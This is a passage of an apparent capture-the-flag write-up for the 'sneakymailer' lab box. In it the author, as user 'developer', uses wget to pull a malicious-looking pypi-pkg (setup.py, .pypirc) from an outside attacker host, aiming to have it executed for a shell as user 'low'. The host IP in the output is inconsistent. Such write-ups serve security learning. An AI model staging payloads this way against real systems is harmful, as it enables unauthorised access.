 <blockquote>id : 1000 belongs to user "Low" , the file will be executed twice</blockquote>
<ul><li>Developer will run it</li><li>Low will run it too to test it </li></ul>
  
<blockquote>So i want the shell as "low",let`s nc and upload the files to execute it</blockquote>
  
<pre>developer@sneakymailer:/tmp<span class="nv">$ </span>wget <span class="nt">-r</span> <span class="nt">--no-parent</span> http://10.10.17.16:8080/pypi-pkg                                                                                                                                  
&lt;get <span class="nt">-r</span> <span class="nt">--no-parent</span> http://10.10.17.16:8080/pypi-pkg                                                                                                                                                               
<span class="nt">--2020-07-16</span> 01:06:23--  http://10.10.17.16:8080/pypi-pkg                                                                                                                                                          
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: /pypi-pkg/ <span class="o">[</span>following]
<span class="nt">--2020-07-16</span> 01:06:24--  http://10.10.17.16:8080/pypi-pkg/
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294 <span class="o">[</span>text/html]
Saving to: ‘10.10.17.16:8080/pypi-pkg’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     294  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:25 <span class="o">(</span>23.1 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg’ saved <span class="o">[</span>294/294]


<span class="nt">--2020-07-16</span> 01:06:26--  http://10.10.17.16:8080/pypi-pkg/.pypirc
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 128 <span class="o">[</span>application/octet-stream]
Saving to: ‘10.10.17.16:8080/pypi-pkg/.pypirc’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     128  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:26 <span class="o">(</span>10.6 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg/.pypirc’ saved <span class="o">[</span>128/128]


<span class="nt">--2020-07-16</span> 01:06:28--  http://10.10.17.16:8080/pypi-pkg/setup.py
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 480 <span class="o">[</span>text/plain]
Saving to: ‘10.10.14.24:8080/pypi-pkg/setup.py’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     480  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:29 <span class="o">(</span>45.9 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg/setup.py’ saved <span class="o">[</span>480/480]
</pre>  
<pre>developer@sneakymailer:/tmp/10.10.14.24:8080<span class="nv">$ </span><span class="nb">ls
ls
</span>pypi-pkg
</pre>
<pre>developer@sneakymailer:/tmp/10.10.14.24:8080/pypi-pkg<span class="nv">$ </span><span class="nb">ls</span> <span class="nt">-a</span>
<span class="nb">ls</span> <span class="nt">-a</span>
<span class="nb">.</span>  ..  .pypirc  setup.py
</pre>
 